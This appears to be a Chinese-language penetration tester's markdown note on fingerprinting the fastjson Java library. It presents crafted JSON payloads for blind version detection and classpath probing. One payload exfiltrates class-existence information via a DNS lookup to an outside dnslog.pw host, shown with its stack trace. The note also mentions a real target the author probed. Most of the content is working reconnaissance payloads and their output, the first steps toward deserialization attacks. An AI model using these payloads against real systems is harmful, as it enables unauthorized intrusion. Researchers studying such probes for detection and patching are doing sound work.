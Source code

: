 ## Ref
- Hacking JSON by 浅蓝 at KCon2022

### 版本探测
```json
{"@type":"java.lang.AutoCloeable"
a
["test":1]
```
另外一个：
```json
[{"a":"a\x]
```

Ref:
- [application/json [{"a":"a\x] 的妙用](https://mp.weixin.qq.com/s/n2zOPvaBMBFYJgsv_fcCww)
- [盲判断目标的fastjson版本](https://mp.weixin.qq.com/s/jbkN86qq9JxkGNOhwv9nxA)
- https://b1ue.cn/archives/402.html

### class探测方法一
```json
{"@type":"java.lang.Character"{"@type":"java.lang.Class",
"val":"groovy.lang.GroovyShell"}
```
和
```json
{"@type":"java.lang.Character"{"@type":"java.lang.Class",
"val":"groovy.lang.GroovyShell1"}
```

![image](https://user-images.githubusercontent.com/30398606/187075915-8aba39ac-f013-42dd-88df-55c002b1fd48.png)

![image](https://user-images.githubusercontent.com/30398606/187075936-ee5058b5-b0f1-488f-8a4f-fab9eb1f31c4.png)


### class探测方法二
```json
{"@type":"java.lang.Class",
"val":"groovy.lang.GroovyShell"}
```
和
```json
{"@type":"java.lang.Class",
"val":"groovy.lang.GroovyShell1"}
```

![image](https://user-images.githubusercontent.com/30398606/187076001-59d835c5-b43c-4178-84dc-23bed90d2ff9.png)

![image](https://user-images.githubusercontent.com/30398606/187076020-5343e930-4c27-4b43-804b-caa2b99db350.png)

总之不存在的类就会报空指针异常，或者返回null的逻辑。

### class探测方法三
通过`java.util.Locale`类的language和country字段的连接。
```java
new Locale("a", "b").toString() == a_B
```
带出dnslog，不过这个域名里有大括号，不是每个dnslog服务都支持的。
用这个：http://dnslog.pw/dns/

```json
{"@type":"java.net.Inet4Address",
"val":{"@type":"java.lang.String"{"@type":"java.util.Locale","val":{"@type":"com.alibaba.fastjson.JSONObject",{"@type":"java.lang.String""@type":"java.util.Locale","language":{"@type":"java.lang.String"{1:{"@type":"java.lang.Class","val":"java.io.InputStream"}},"country":"x.fastjson.4wjna9kk.dnslog.pw"}}}
```
抛出异常`com.alibaba.fastjson.JSONException: deserialize inet adress error`：调用栈
```java
java.net.UnknownHostException: {"1":"java.io.inputstream"}_X.FASTJSON.4WJNA9KK.DNSLOG.PW
	at java.net.Inet6AddressImpl.lookupAllHostAddr(Native Method) ~[na:1.8.0_202]
	at java.net.InetAddress$2.lookupAllHostAddr(InetAddress.java:929) ~[na:1.8.0_202]
	at java.net.InetAddress.getAddressesFromNameService(InetAddress.java:1324) ~[na:1.8.0_202]
	at java.net.InetAddress.getAllByName0(InetAddress.java:1277) ~[na:1.8.0_202]
	at java.net.InetAddress.getAllByName(InetAddress.java:1193) ~[na:1.8.0_202]
	at java.net.InetAddress.getAllByName(InetAddress.java:1127) ~[na:1.8.0_202]
	at java.net.InetAddress.getByName(InetAddress.java:1077) ~[na:1.8.0_202]
	at com.alibaba.fastjson.serializer.MiscCodec.deserialze(MiscCodec.java:335) ~[fastjson-1.2.70.jar:na]
	at com.alibaba.fastjson.parser.DefaultJSONParser.parseObject(DefaultJSONParser.java:395) ~[fastjson-1.2.70.jar:na]
	at com.alibaba.fastjson.parser.DefaultJSONParser.parse(DefaultJSONParser.java:1401) ~[fastjson-1.2.70.jar:na]
	at com.alibaba.fastjson.parser.DefaultJSONParser.parse(DefaultJSONParser.java:1367) ~[fastjson-1.2.70.jar:na]
	at com.alibaba.fastjson.JSON.parse(JSON.java:183) ~[fastjson-1.2.70.jar:na]
	at com.alibaba.fastjson.JSON.parse(JSON.java:193) ~[fastjson-1.2.70.jar:na]
	at com.alibaba.fastjson.JSON.parse(JSON.java:149) ~[fastjson-1.2.70.jar:na]
	at com.alibaba.fastjson.JSON.parseObject(JSON.java:254) ~[fastjson-1.2.70.jar:na]
```
但是碰到一个目标在这三个方法都报错：
```java
JSON parse error: type not match. java.lang.Character -> com.xxx.yyy.security.service.dto.AuthUserDto; nested exception is com.alibaba.fastjson.JSONException: type not match. java.lang.Character -> com.xxx.yyy.security.service.dto.AuthUserDto
```

后来自己大环境测试，知道了这里的代码应该是：
```
User ob = JSON.parseObject(params, User.class);
```
自己搭环境的截图：
![image](https://user-images.githubusercontent.com/30398606/187132282-7c178714-d126-45e6-9e49-023db25d7bfe.png)
